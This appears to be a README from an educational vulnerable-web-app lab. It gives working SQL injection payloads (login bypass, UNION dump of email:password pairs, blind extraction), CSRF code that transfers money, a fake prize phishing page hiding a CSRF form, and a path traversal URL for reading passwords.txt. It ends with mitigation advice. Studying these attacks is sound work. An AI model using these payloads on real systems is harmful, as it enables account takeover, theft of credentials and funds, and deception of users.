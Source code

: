 
## 1. SQL INJECTION VECTORS (MariaDB Compatible)

---

### a) **Login Bypass**

**Payload Example 1**

- **Email**: `admin@example.com' OR 1=1 --`
    
- **Password**: anything
    

**Injected Query**:

```sql
SELECT * FROM users WHERE email='' OR 1=1 -- ' AND pass='anything'
```

---
**MariaDB-Specific Variant**

- **Email**: `admin@example.com' #`
    
- **Password**: anything
    

**Injected Query**:

```sql
SELECT * FROM users WHERE email='admin' # ' AND pass='anything'
```

Note: `#` is a valid comment character in MariaDB (like `--` ), and it ignores the rest of the line.

---

### b) **UNION-Based Attack**

**Payload**:

- **Search**: `' UNION SELECT 1, CONCAT(email, ':', pass), 3 FROM users -- `
    

**Injected Query**:

```sql
SELECT id, name, info FROM products WHERE name='' UNION SELECT 1, CONCAT(email, ':', pass), 3 FROM users -- '
```

This would display all users’ credentials in the search results (if column counts and types match).

---

### c) **Blind SQL Injection**

**Payload**:

- **Email**: `admin@example.com' AND (SELECT SUBSTRING(pass,1,1) FROM users WHERE id=1)='a`
    

**Injected Query**:

```sql
SELECT * FROM users 
WHERE email='admin@example.com' AND (SELECT SUBSTRING(pass,1,1) FROM users WHERE id=1)='a'
```

This doesn't reveal errors or results directly, but with repeated guessing, the attacker can infer the password one character at a time.

---

## 2. CSRF Attack Vectors

### JavaScript `fetch()` Method (IMG Tag Alternative)

This uses `fetch()` to simulate a form submission directly in JavaScript:

```html
<script>
fetch("http://localhost/login_app/dashboard.php", {
  method: "POST",
  headers: {
    "Content-Type": "application/x-www-form-urlencoded",
  },
  body: "to_id=7&amount=10000000&transfer=Transfer+Money"
});
</script>
```

> **Note:** While `fetch()` doesn't work cross-origin by default (due to CORS), it's still useful for same-origin CSRF or if the target lacks proper protections.
---

3. Social Engineering
Fake Prize Page with Hidden CSRF Attack

This is an example of a phishing page designed to trick users into clicking a button under the pretense of winning a prize. In reality, clicking the button submits a hidden form that performs a CSRF attack — transferring money without the user’s knowledge.
Malicious HTML Overview:

<form id="csrf-form" action="http://localhost/login_app/dashboard.php" method="POST" target="csrf-frame">
    <input type="hidden" name="to_id" value="2">
    <input type="hidden" name="amount" value="500">
    <input type="hidden" name="transfer" value="Transfer Money">
</form>

<button onclick="document.getElementById('csrf-form').submit();">
    Claim Your Prize Now!
</button>

How it works:

    The page is styled to look legitimate (e.g., prize claim, congratulatory message).

    The user is encouraged to click a big, friendly button to "claim a prize".

    Clicking the button submits a hidden form, which:

        Sends a POST request to the target site (dashboard.php)

        Transfers 500 units to user ID 2, impersonating the victim.

    The request is executed silently inside an iframe, giving no indication to the victim.

    If the victim is already logged in to the vulnerable site (localhost/login_app), the action is performed using their session.

This is a classic CSRF combined with social engineering, where the attacker uses deceptive UI to exploit a user’s trust and active session.

---
## 4. Path Traversal Exploitation

### Reading Sensitive Files

Use directory traversal sequences to access files outside the intended path:

```
http://localhost/login_app/../passwords.txt
```
Let's say that we have a passwords.txt file outside of our website. Using the "../" syntax we escape the site's scope and retreive any files outside of the folder. So ../passwords.txt will get us the passwords.txt file outside of the folder.

This can expose sensitive configuration files, credentials, or other private data if the server doesn’t sanitize the `path` input.

---

## 5. Prevention Techniques

>  For educational purposes — here’s how to fix or mitigate the common vulnerabilities:

---

### a) **SQL Injection**

-  Use **prepared statements** with **parameterized queries**
    
-  Apply strict **input validation** (whitelisting where possible)
    
-  Follow the **principle of least privilege** (minimal DB rights)
    

---

### b) **Cross-Site Request Forgery (CSRF)**

-  Add **anti-CSRF tokens** in forms and validate them server-side
    
-  Use `SameSite` attribute for cookies (`SameSite=Strict` or `Lax`)
    
-  Validate the **Referer** or **Origin** header for critical actions
    
---

### c) **Path Traversal**

-  **Validate and sanitize** all user-controlled file paths
    
-  Use **server-side path whitelisting** or mapping
    
-  Enforce **access control** checks for file operations
    

---

### d) **Authentication & Session Management**

-  Implement proper **session validation** and timeouts
    
-  Use strong **password hashing** (e.g., bcrypt, Argon2) with salting
    
-  Apply **account lockout** or throttling to prevent brute-force attacks
    
